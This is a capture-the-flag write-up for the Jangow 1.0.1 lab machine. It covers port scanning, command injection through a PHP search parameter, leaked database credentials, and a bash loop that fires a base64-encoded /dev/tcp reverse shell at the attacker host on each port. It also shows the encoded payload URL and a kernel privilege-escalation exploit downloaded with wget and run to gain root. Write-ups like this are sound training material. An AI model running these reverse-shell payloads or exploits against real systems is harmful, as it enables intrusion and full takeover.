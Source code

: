 # Jangow: 1.0.1
## User flag

```shell
 nmap -p- -n --min-rate 5000 -sS -Pn -vvv -oN allports 192.168.1.38

 PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Interesting no ssh port open so the only way to get in is via reverse shell. Then after fuzzing directories I decided to fuzz the "buscar" parameter for LFI's


  Command line : `ffuf -w /home/dasor/wordlist/LFI-Jhaddix.txt -u http://192.168.1.38/site/busque.php?buscar=FUZZ -v -of md -o ffuf:lfi_search -fs 1`
  Time: 2022-08-20T12:22:23&#43;02:00

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | %0a/bin/cat%20/etc/passwd | http://192.168.1.38/site/busque.php?buscar=%0a/bin/cat%20/etc/passwd |  | 7 | 200 | 1679 | 15 | 34 | text/html; charset=UTF-8 |  |
  | passwd | http://192.168.1.38/site/busque.php?buscar=passwd |  | 479 | 200 | 33 | 4 | 3 | text/html; charset=UTF-8 |  |


surprisingly this page is just a direct php RCE so I got the user flag from there.

## Root flag

Now to get root first we need a shell but at the beginning I wasn't able to craft one  no matter what. However looking through the files I found credentials in a hidden file in ../

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

This credential were valid for ftp but I couldn't find anything valuable there. At this point I thought maybe some kind of firewall was blocking my reverse shells So I did a Bash script to check port by port if a connection can be established. I first Tried with the first 1000 ports.


```shell
#!/bin/bash

trap "rm nc.tmp &>/dev/null" EXIT
trap exit 1 INT

id | grep root &>/dev/null
if [ $? != 0 ]
then
	echo "[!] You need root privileges to open this ports"
	exit 1
fi

for i in {1..1000}
do
	payload="sh -i >& /dev/tcp/192.168.1.13/$i 0>&1"
	payload=$(echo $payload  | base64)
	payload="echo \"$payload\""
	payload="$payload | base64 -d | bash"
	payload=$(echo $payload | jq -sRr @uri)
	timeout 1 sudo nc -lvp $i &> nc.tmp &
	timeout 1 curl -s http://192.168.1.38/site/busque.php?buscar=$payload
	echo "[+] trying port $i"
	if [ $(cat nc.tmp | grep -ivE "Terminated|err"| wc -l ) != 0 ]
	then
		echo -e "\t[+] Port found $i"
		exit 0
	fi


done
```

I have to say that this script is not 100% reliable, I think it's because of the timeouts and the more you increase them the more reliable the script is but 1 second for port is already quite slow.

```shell
sudo ./rev_shell_port_check.sh
[+] trying port 437
[+] trying port 438
[+] trying port 439
[+] trying port 440
[+] trying port 441
[+] trying port 442
[+] trying port 443
        [+] Port found 443
```

I guess it makes sense if it blocked port 443 then the computer wouldn't be able to connect to https websites. This situation is quite unusual but surely something we can learn from. Then I just used my base64 encoded rev shell and got in


```
http://192.168.1.38/site/busque.php?buscar=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzQ0MyAwPiYxCg==%22%20|%20base64%20-d%20|%20bash
```

```shell
sudo nc -lvp 443
[sudo] password for dasor:
Connection from 192.168.1.38:39554
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@jangow01:/var/www/html/site$ ^Z
zsh: suspended  sudo nc -lvp 443
[dasor@archlinux ~/htb/jangow]$ stty raw -echo;fg
[1]  + continued  sudo nc -lvp 443

www-data@jangow01:/var/www/html/site$ stty rows 30 columns 132
www-data@jangow01:/var/www/html/site$ su jangow01
Password:
jangow01@jangow01:/var/www/html/site$
```

Now privilege escalation is really easy, just by looking at the linux version we can see it's really outdated

```shell
jangow01@jangow01:/var/www/html/site$ uname -a
Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits [this][https://www.exploit-db.com/exploits/45010] comes up. In this case we need to compile the exploit statically because there are no libraries in the victim's machine.

```shell
[dasor@archlinux ~/htb/jangow]$ gcc --static exp2.c -o exploit
[dasor@archlinux ~/htb/jangow]$ ldd exploit
```

Now let's download it from the other machine (also use port 443) and execute it

```shell
[dasor@archlinux ~/htb/jangow]$ sudo python3 -m http.server 443
...
 jangow01@jangow01:~$ wget 192.168.1.13:443/exploit
--2022-08-22 13:22:02--  http://192.168.1.13:443/exploit
Conectando-se a 192.168.1.13:443... conectado.
A requisição HTTP foi enviada, aguardando resposta... 200 OK
Tamanho: 796480 (778K) [application/octet-stream]
Salvando em: “exploit”

exploit                        100%[==========================================================>] 777,81K  --.-KB/s    in 0,002s

2022-08-22 13:22:02 (447 MB/s) - “exploit” salvo [796480/796480]
jangow01@jangow01:~$ chmod u+x exploit
jangow01@jangow01:~$ ./exploit
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88003da86900
[*] Leaking sock struct from ffff880037ca3a40
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88003439d9c0
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88003439d9c0
[*] credentials patched, launching shell...
# whoami
root
# cat /root/proof.txt
                       @@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@&&&&&&&&&&&&&&
                       @  @@@@@@@@@@&( .@@@@@@@@&%####((//#&@@@&   .&@@@@@
                       @  @@@@@@@&  @@@@@@&@@@@@&%######%&@*   ./@@*   &@@
                       @  @@@@@* (@@@@@@@@@#/.               .*@.  .#&.   &@@@&&
                       @  @@@, /@@@@@@@@#,                       .@.  ,&,   @@&&
                       @  @&  @@@@@@@@#.         @@@,@@@/           %.  #,   %@&
                       @@@#  @@@@@@@@/         .@@@@@@@@@@            *  .,    @@
                       @@&  @@@@@@@@*          @@@@@@@@@@@             ,        @
                       @&  .@@@@@@@(      @@@@@@@@@@@@@@@@@@@@@        *.       &@
                      @@/  *@@@@@@@/           @@@@@@@@@@@#                      @@
                      @@   .@@@@@@@/          @@@@@@@@@@@@@              @#      @@
                      @@    @@@@@@@@.          @@@@@@@@@@@              @@(      @@
                       @&   .@@@@@@@@.         , @@@@@@@ *            .@@@*(    .@
                       @@    ,@@@@@@@@,   @@@@@@@@@&*%@@@@@@@@@,    @@@@@(%&*   &@
                       @@&     @@@@@@@@@@@@@@@@@         (@@@@@@@@@@@@@@%@@/   &@
                       @ @&     ,@@@@@@@@@@@@@@@,@@@@@@@&%@@@@@@@@@@@@@@@%*   &@
                       @  @@.     .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%*    &@&
                       @  @@@&       ,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%/     &@@&&
                       @  @@@@@@.        *%@@@@@@@@@@@@@@@@@@@@&#/.      &@@@@&&
                       @  @@@@@@@@&               JANGOW               &@@@
                       @  &&&&&&&&&@@@&     @@(&@ @. %.@ @@%@     &@@@&&&&
                                     &&&@@@@&%       &/    (&&@@@&&&
                                       (((((((((((((((((((((((((((((


```

And done! pretty easy machine except for the port part that was quite confusing
